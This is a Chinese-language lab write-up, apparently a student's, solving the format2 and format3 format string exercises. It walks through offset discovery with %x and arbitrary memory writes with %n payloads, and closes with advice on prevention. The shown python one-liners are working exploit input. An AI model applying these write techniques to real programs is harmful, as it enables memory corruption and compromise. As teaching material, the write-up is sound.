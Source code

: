 # <center>格式化字符串实验2</center>

## 实验概述

### 【目的】
1. 运行format2,得到输出`you have modified the target :)`
2. 运行format3,得到输出`you have modified the target :)`
### 【环境】
Linux
### 【工具】
python
### 【原理】
格式化字符串，是一些程序设计语言在格式化输出API函数中用于指定输出参数的格式与相对位置的字符串参数，例如C、C++等程序设计语言的printf类函数，其中的转换说明（conversion specification）用于把随后对应的0个或多个函数参数转换为相应的格式输出；格式化字符串中转换说明以外的其它字符原样输出。[1]
## 实验步骤

### 【步骤】
#### format2
IDA pro 定位到关键函数。
```c
int vuln()
{
  char s; // [sp+Ch] [bp-20Ch]@1
  int v2; // [sp+20Ch] [bp-Ch]@1

  v2 = *MK_FP(__GS__, 20);
  fgets(&s, 512, stdin);
  printf(&s);
  if ( target == 64 )
    puts("you have modified the target :)");
  else
    printf("target is %d :(\n", target);
  return *MK_FP(__GS__, 20) ^ v2;
}
```
target的地址
```
.bss:0804A048 target          dd ?                    ; DATA XREF: vuln+43r
.bss:0804A048                                         ; vuln:loc_804854Ar
.bss:0804A048 _bss            ends
```
与format1不同的是，这里要求精确控制target的的值为64。
跟上一题一样，先查找format参数的偏移量。
```
$ python -c 'print "AAAA"+".".join(["%d:%%x" % i for i in range(1,16)])' | ./format2
AAAA1:200.2:f7fb65a0.3:f7ff0f8a.4:f7e0c008.5:f7fd41a8.6:f7ffcf1c.7:41414141.8:78253a31.9:253a322e.10:3a332e78.11:342e7825.12:2e78253a.13:78253a35.14:253a362e.15:3a372e78
target is 0 :(

```
尝试修改target变量的值
```
$ python -c 'print "\x48\xa0\x04\x08%7$n"' | ./format2
H�
target is 4 :(

```
这里target的值被改写成为4，要使target的值为64，需要在%n前面再多输出60个字符，c语言中，`%`后可以接数字表示输出的位数，那么要输出60个字符，就可以使用`%60d`。
```
$ python -c 'print "\x48\xa0\x04\x08%60d%7$n"' | ./format2
H�                                                         512
you have modified the target :)

```

#### format3

```
int vuln()
{
  char s; // [sp+Ch] [bp-20Ch]@1
  int v2; // [sp+20Ch] [bp-Ch]@1

  v2 = *MK_FP(__GS__, 20);
  fgets(&s, 512, stdin);
  printbuffer(&s);
  if ( target == 0x1025544 )
    puts("you have modified the target :)");
  else
    printf("target is %08x :(\n", target);
  return *MK_FP(__GS__, 20) ^ v2;
}
.bss:0804A048                 public target
.bss:0804A048 target          dd ?                    ; DATA XREF: vuln+43r
.bss:0804A048                                         ; vuln:loc_8048563r
.bss:0804A048 _bss            ends
```
这里要求target = 0x01025544，由于%n一次只能输入一个字节，所以我们需要调用四次%n来改写target的值。
先寻找偏移量是多少。
```
$ python -c 'print "AAAA"+".".join(["%d:%%x" % i for i in range(1,16)])' | ./format3
AAAA1:f7feeff0.2:f7e6362b.3:0.4:f7fb6000.5:f7fb6000.6:ffffcf58.7:8048542.8:ffffcd4c.9:200.10:f7fb65a0.11:f7ff0f8a.12:f7e0c008.13:f7fd41a8.14:f7ffcf1c.15:41414141
$ python -c 'print "ABCD" + "X" * 4 + "%15$x."' | ./format3
ABCDXXXX44434241.
target is 00000000 :(

```
确定了偏移量是15，先尝试一下修改。
```
$ python -c 'print "\x48\xa0\x04\x08"  + "%64d%15$n."' | ./format3
H�                                                      -134287376.
target is 00000044 :(

```
成功修改了最低一位的值，再尝试修改两位。
```
$ python -c 'print "\x48\xa0\x04\x08\x49\xa0\x04\x08"  + "%60d%15$n%17d%16$n"' | ./format3
H�I�                                                  -134287376       -135907797
target is 00005544 :(

```
注意，这里前面的地址输入了8位，那么后面的位数也要相应的减去4，可以看到原本的%64d变成了%60d。
现在要控制第三位的值，考虑到需要把值改为0x02，而0x55大于0x02，此时需要溢出到258。因为258刚好是0x0102，所以此时已经满足条件。
```
$ python -c 'print "\x48\xa0\x04\x08\x49\xa0\x04\x08\x4a\xa0\x04\x08"  + "%56d%15$n%17d%16$n%173d%17$n"' | ./format3
H�I�J�                                              -134287376       -135907797                                                                                                                                                                            0
you have modified the target :)

```



### 【总结】
本次实验主要进一步熟悉了通过%x泄露内存数据，通过%n来进行任意地址写，通过%`x`d来控制输出x个字符。

可以发现，格式化字符串漏洞发生的原因是程序将格式化字符串的权限交给用户，即用户可以操作格式化字符串的内容。

要预防这类情况，在使用格式化字符串函数时，format参数的权限一定不能交给用户。
